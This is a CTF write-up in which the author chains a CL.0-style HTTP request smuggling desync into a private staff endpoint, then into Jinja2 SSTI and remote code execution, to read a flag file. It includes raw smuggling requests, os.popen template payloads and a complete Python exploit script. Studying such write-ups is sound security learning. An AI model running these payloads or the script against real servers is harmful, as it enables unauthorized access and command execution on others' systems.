










# Sticky Headers: From a Broken `curl` Command to Full RCE 🍬

## Intro

This one started innocently enough a cute little candy-shop web app. By the end of it I had chained an HTTP request smuggling bug into a server-side template injection into remote code execution. Classic CTF escalation: what looks like a static ordering form turns out to be hiding a private staff panel that evaluates whatever you feed
it.

Below is the full journey, mistakes included, because honestly half the value
of a writeup is seeing what _didn't_ work first.

## Challenge Description

> The Sticky Sweets ordering service is protected by a delivery gateway. The
> public shop is available to everyone, but the staff template preview is
> meant to remain private. 🍬
>
> The gateway supports an older courier protocol for compatibility. Somewhere
> in the staff workflow, a secret recipe is waiting to be recovered.
>
> Legend says that whoever steals the recipe will become famous, rich, and the
> unofficial ruler of every candy shop in town. The current owner claims this
> is "completely ridiculous" while nervously guarding the staff portal.
>
> Can you find the recipe before the next delivery leaves?
>
> The recipe is stored in a file named `recipe.txt` somewhere on the staff
> system.

## Target

```text
Host: sticky-headers-24e7e49c6db1.inst.ctf.fortid.com
Port: 1337/TLS
```

```text
https://sticky-headers-24e7e49c6db1.inst.ctf.fortid.com:1337/
```

---

## Step 1 — The First curl That Didn't Work

Naturally, step one of any web challenge: just curl it and see what comes
back.

```bash
curl -v https://sticky-headers-24e7e49c6db1.inst.ctf.fortid.com:1337/
```

- **`-v`** used to show verbose output

Here's what came back:


curl resolved both an IPv6 and an IPv4 address, but as it does by default tried the IPv6 address first. The second it sent the TLS Client Hello over IPv6, the peer reset the connection outright (curl: (35) Recv failure: Connection reset by peer). This happened before any ALPN negotiation, before any certificate exchange the TLS handshake didn't even get a Server Hello back. That's not an HTTP/2 or application-layer problem at all; it's the IPv6 path to this host being dead, firewalled off, or otherwise not actually listening on 1337. Classic CTF infra situation where the AAAA record exists in DNS but nothing real is behind it.

## Step 1.2: force IPv4 with -4

```
bash
curl -4 -v https://sticky-headers-24e7e49c6db1.inst.ctf.fortid.com:1337/
```

- 4 forces curl to resolve and connect over IPv4 only, skipping the IPv6 attempt entirely. This is exactly what was needed above — instead of curl wasting a connection attempt (and getting reset) on the dead IPv6 route, it goes straight to 142.132.180.84.
  

**Conclusion:** HTTP/2 doesn't actually work here, even though the server said it would during ALPN. It agreed to h2, then didn't send back the SETTINGS frame every HTTP/2 connection is required to start with. curl's nghttp2 had no choice but to kill it with PROTOCOL_ERROR.

So: stop letting curl pick HTTP/2, force HTTP/1.1 instead. That's next, in Burp.

## Step 2 — Burp Suite, and Forcing HTTP/1.1

Opened the target in **Burp Suite**, sent a request through the proxy, and
immediately checked the protocol being negotiated in Burp's request editor.
Confirmed: HTTP/2 was being attempted and was unstable here, exactly matching
what curl choked on.



Flipped Burp's target TLS/protocol settings to force **HTTP/1.1** only. Resent the request.

**Okayyyyyy** got a clean `HTTP/1.1 200 OK` back with the full candy-shop
homepage HTML. This Means the Server Might be working on HTTP/1.1



## Step 3 — Reading the Page

With the homepage actually rendering, I went through the HTML and inline
JavaScript line by line instead of just skimming. Two lines of body text
stood out immediately:

```html
<p class="note">Current candy couriers use delivery mode 2.</p>
<p class="note">
  Older couriers may describe delivery contents using more than one encoding.
</p>
```

That's not flavor text, that's a nudge. "Delivery mode 2" + "older couriers"

- `more than one encoding` is basically the challenge author winking at you
  and saying _there's a legacy encoding path, go find it_.

Then the embedded JS confirmed it outright:

```js
const response = await fetch("/order", {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Client-Version": "2",
  },
  body: order,
});
```

There it is: `X-Client-Version: 2` is what the _current_ frontend sends. If
mode 2 is "current," the hint text about "older couriers" strongly implies
a **mode 1** exists and behaves differently probably the "legacy" parser
being referenced.

## Step 4 — Poking at `/order` with Version 1

First test: just see if `X-Client-Version: 1` is even accepted.

```http
POST /order HTTP/1.1
Host: sticky-headers-24e7e49c6db1.inst.ctf.fortid.com:1337
X-Client-Version: 1
Content-Length: 0
```

Sent it with an empty body first, then tried again with some junk data, then
tried `X-Client-Version: 2` just to compare baseline behavior. All of them
came back completely normal:

```html
<h1>&#x1f36d; Order received!</h1><p>Your sweets are on their way.</p></div></body></html>
```



Okay, so the header is accepted silently either way, no error, no visible
behavior difference on the surface. No cookies being set either, no session
token, nothing to track state with. That ruled out some kind of
session-based bug and nudged me hard toward something in the **raw request
parsing/framing** itself which, combined with the "more than one encoding"
hint, screamed **HTTP request smuggling**.

## Step 5 — Trying the Classic Smuggling Patterns

Went down the standard PortSwigger-style checklist:

- **TE.CL** — front end uses `Transfer-Encoding`, back end uses
  `Content-Length`
- **CL.TE** — front end uses `Content-Length`, back end uses
  `Transfer-Encoding`

Threw both patterns at `/order` with `Transfer-Encoding: chunked` present
alongside `Content-Length`. No joy responses came back normal, no sign of
desync, no hung connections, nothing weird.





So on a hunch, I stripped the `Transfer-Encoding` header out completely and
just left `Content-Length` doing all the work, keeping the chunk-terminator
style body (`0\r\n\r\n`) anyway just to see what the parser does with it even
without the TE header announcing chunked encoding.

**That's when it clicked.**

```http
POST /order HTTP/1.1
Host: sticky-headers-24e7e49c6db1.inst.ctf.fortid.com:1337
Content-Type: application/x-www-form-urlencoded
X-Client-Version: 1
Content-Length: 5

0

GET /404 HTTP/1.1
Host: sticky-headers-24e7e49c6db1.inst.ctf.fortid.com:1337

```

I sent a smuggled `GET /404` after it as a canary if the second request
got processed as a separate request by the backend, I'd expect to see a 404
response show up somewhere in the traffic. And I did. The backend treated
`0\r\n\r\n` (just 5 bytes, matching `Content-Length: 5` exactly) as "body is
done," then picked the leftover bytes up as a **brand new HTTP request**.



This isn't a textbook CL.TE or TE.CL, by the way no `Transfer-Encoding`
header is involved at all. It's closer to a **CL.0-style desync**: the
legacy (`X-Client-Version: 1`) parser appears to apply chunk-terminator logic
(`0\r\n\r\n` = "final zero-length chunk, no trailers") _without_ that logic
actually being gated behind a `Transfer-Encoding: chunked` header, while
`Content-Length: 5` is what the front end/gateway uses to decide the request
is "complete." The two numbers disagree, and that disagreement is the whole
bug.

### Gotcha: Burp Will Silently Ruin This For You

Important lesson that cost me a few failed attempts: **Burp Repeater
auto-updates `Content-Length` when you edit the body**, unless you turn that
off. If you paste in a request with a smuggled second request stacked below
a `Content-Length: 5`, Burp will "helpfully" recalculate that
`Content-Length` to match the _entire_ body (both requests combined) the
moment you touch anything.

You have to manually fix `Content-Length` back to `5` (to cover exactly
`0\r\n\r\n` and nothing else) and either disable the auto-update setting or
re-correct it every time before sending.

## Step 6 — Smuggling Into the Staff Preview

Earlier recon (checking `robots.txt`) had already revealed the private
endpoint:

```text
User-agent: *
# Staff preview accepts a form field named message.
Disallow: /staff/preview
```

And a direct hit on it from outside was blocked with a flat `403 Forbidden`.
Exactly the kind of "path restricted at the gateway, reachable from inside"
setup that request smuggling is made for.

So I swapped the smuggled canary request for the real target:

```http
POST /order HTTP/1.1
Host: sticky-headers-24e7e49c6db1.inst.ctf.fortid.com:1337
Content-Type: application/x-www-form-urlencoded
X-Client-Version: 1
Content-Length: 5

0

POST /staff/preview HTTP/1.1
Host: sticky-headers-24e7e49c6db1.inst.ctf.fortid.com:1337
Content-Length: 13

message=hello
```

And there it was the smuggled request reached the private backend and I
got a `Staff template preview` page back in the response stream, rendering
`hello` right where I put it.



Genuine little fist-pump moment.403 bypassed, private endpoint reached,
purely through a parsing disagreement.

## Step 7 — Confirming SSTI

A rendered page that echoes back exactly what you send it is always worth
poking with a basic template probe. Classic move:

```text
message={{7*7}}
```

Response came back with:

```text
49
```

Not reflected as literal text, not HTML-escaped into something harmless
actually **evaluated**. That confirms server-side template injection (SSTI),
almost certainly Jinja2 or a Jinja2-compatible engine given the `{{ }}`
syntax and the fact that arithmetic gets executed.

## Step 8 — From SSTI to RCE

From here it's standard Jinja2 sandbox-escape territory. The `cycler` global
(normally used for alternating CSS classes in loops) exposes its `__init__`
method, whose `__globals__` dict leaks straight into the interpreter's
global namespace — including the imported `os` module. From `os` it's a
straight line to `os.popen()`.

First, a recon payload to find the recipe file without guessing its path:

```jinja2
{{ cycler.__init__.__globals__.os.popen('pwd; find / -name recipe.txt 2>/dev/null').read() }}
```

Returned:

```text
/opt/candy/recipe.txt
/tmp/recipe.txt
```

Then just read it:

```jinja2
{{ cycler.__init__.__globals__.os.popen('cat /opt/candy/recipe.txt').read() }}
```



```text
FortID{1_C4NT_5H4K3_TH15_H34D3R_c673d30c48}
```

And that's the flag.

---

## Full Python PoC

For automation/reproducibility, here's a standalone script that does the
whole chain — desync + smuggle + SSTI read over a raw TLS socket (bypassing
curl/Burp's own HTTP/2 negotiation entirely, which sidesteps the Step 1
problem completely).

```python
#!/usr/bin/env python3
import html
import re
import socket
import ssl
import time
import urllib.parse


HOST = "sticky-headers-24e7e49c6db1.inst.ctf.fortid.com"
PORT = 1337


def connect_tls():
    # Force IPv4 because the challenge endpoint can have an unreachable IPv6
    # route in some environments.
    address = socket.getaddrinfo(
        HOST, PORT, socket.AF_INET, socket.SOCK_STREAM
    )[0][4]
    raw = socket.create_connection(address, timeout=5)

    context = ssl.create_default_context()
    context.check_hostname = False
    context.verify_mode = ssl.CERT_NONE
    return context.wrap_socket(raw, server_hostname=HOST)


def send_preview(message):
    form_body = urllib.parse.urlencode({"message": message}).encode()
    host_header = f"Host: {HOST}\r\n".encode()

    # This is the request that will be processed by the private backend.
    inner = (
        b"POST /staff/preview HTTP/1.1\r\n"
        + host_header
        + b"Content-Type: application/x-www-form-urlencoded\r\n"
        + f"Content-Length: {len(form_body)}\r\n".encode()
        + b"Connection: close\r\n\r\n"
        + form_body
    )

    # In legacy version 1, Content-Length: 5 consumes exactly 0\r\n\r\n.
    # The remaining bytes are interpreted as a second request.
    outer = (
        b"POST /order HTTP/1.1\r\n"
        + host_header
        + b"Content-Type: application/x-www-form-urlencoded\r\n"
        + b"Content-Length: 5\r\n"
        + b"X-Client-Version: 1\r\n"
        + b"Connection: close\r\n\r\n"
        + b"0\r\n\r\n"
        + inner
    )

    sock = connect_tls()
    sock.settimeout(1)
    sock.sendall(outer)

    response = bytearray()
    deadline = time.monotonic() + 5
    while time.monotonic() < deadline:
        try:
            chunk = sock.recv(65535)
            if not chunk:
                break
            response.extend(chunk)
        except socket.timeout:
            continue

    sock.close()
    return bytes(response)


def extract_preview(response):
    match = re.search(
        rb'<div class="preview">(.*?)</div>', response, re.DOTALL
    )
    if not match:
        raise RuntimeError("staff preview was not found in the response")

    return html.unescape(match.group(1).decode("utf-8", errors="replace"))


def main():
    discovery = (
        "{{ cycler.__init__.__globals__.os.popen("
        "'pwd; find / -name recipe.txt 2>/dev/null'"
        ").read() }}"
    )
    print("[+] File locations:")
    print(extract_preview(send_preview(discovery)))

    read_recipe = (
        "{{ cycler.__init__.__globals__.os.popen("
        "'cat /opt/candy/recipe.txt'"
        ").read() }}"
    )
    flag = extract_preview(send_preview(read_recipe)).strip()
    print("[+] Recipe/flag:")
    print(flag)


if __name__ == "__main__":
    main()
```

Run it:

```bash
python3 solve.py
```

Output:

```text
[+] File locations:
/challenge
/opt/candy/recipe.txt
/tmp/recipe.txt
[+] Recipe/flag:
FortID{1_C4NT_5H4K3_TH15_H34D3R_c673d30c48}
```

---

## Flag

```text
FortID{1_C4NT_5H4K3_TH15_H34D3R_c673d30c48}
```

## Lessons Learned

A few things worth remembering for next time:

1. **If ALPN negotiates HTTP/2 but the connection immediately errors out**,
   don't fight it — downgrade to HTTP/1.1 explicitly (Burp project settings,
   or `curl --http1.1`). A flaky HTTP/2 front end is often itself a clue
   that there's a translation/downgrade layer worth attacking.
2. **"No session state" is a hint, not a dead end.** When a form has no
   cookies, no CSRF token, nothing to correlate requests — framing-level bugs
   (smuggling, desync) become much more likely candidates than logic bugs.
